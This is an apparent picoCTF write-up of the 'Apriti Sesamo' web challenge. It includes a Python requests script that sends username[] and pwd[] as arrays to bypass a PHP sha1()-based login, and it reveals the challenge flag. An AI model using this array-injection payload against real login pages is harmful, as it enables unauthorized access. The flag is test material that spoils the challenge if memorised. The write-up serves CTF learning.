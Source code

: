
# **Apriti Sesamo - PicoCTF Write-up**

**Category:** Web Exploitation  
**Points:** 300  
**Author:** Junias Bonou

## **Challenge Description**

> I found a web app that claims to be impossible to hack!  
> Try it here!

A web application claims to be "impossible" to hack. Our goal is to bypass its security and retrieve the flag.

---

## **Step 1: Inspecting the Login Page**

Upon visiting the challenge website, we see a simple login form:
![[Pasted image 20250312234637.png]]

`<form action="impossibleLogin.php" method="post">     <label for="username">Username:</label><br>     <input type="text" id="username" name="username"><br>     \<label for="pwd">Password:</label><br>     <input type="password" id="pwd" name="pwd"><br><br>     <input type="submit" value="Login"> </form>`
![[Pasted image 20250312234749.png]]

This form sends a `POST` request to `impossibleLogin.php`.

---

## **Step 2: Analyzing Backend Errors**

Upon submitting random credentials, the following PHP warning appears:

`Warning: sha1() expects parameter 1 to be string, array given in /var/www/html/impossibleLogin.php on line 38`

This suggests a possible vulnerability in the handling of form inputs.

---

## **Step 3: Exploiting the Input Handling**

Looking at the form, we see the login parameters:

- `username`
- `pwd`

In PHP, if a parameter is sent as an array (`username[]` instead of `username`), it can cause unexpected behavior. The error message suggests that `sha1()` is expecting a string but receives an array instead.
```
import requests

# Target URL
url ="http://verbal-sleep.picoctf.net:50313/impossibleLogin.php"  
payload = {
    "username[]": "a", 
    "pwd[]": "b"  
}

# Send the POST request
response = requests.post(url, data=payload)

# Print the response (likely the flag if successful)
print(response.text)

```

---

## **Step 4: Retrieving the Flag**

Executing the script returns:

CopyEdit

`picoCTF{w3Ll_d3sErV3d_Ch4mp_5b269555}`

---

## **Conclusion**

This challenge exploited improper input handling in PHP:

- Sending an array instead of a string caused a type error.
- This error bypassed authentication, revealing the flag.

### **Key Takeaways**

✔ Always validate and sanitize user input.  
✔ PHP functions like `sha1()` expect specific data types; improper handling can lead to vulnerabilities.  
✔ Array injection is a simple yet effective technique in some web-based CTF challenges.


![[Pasted image 20250312234330.png]]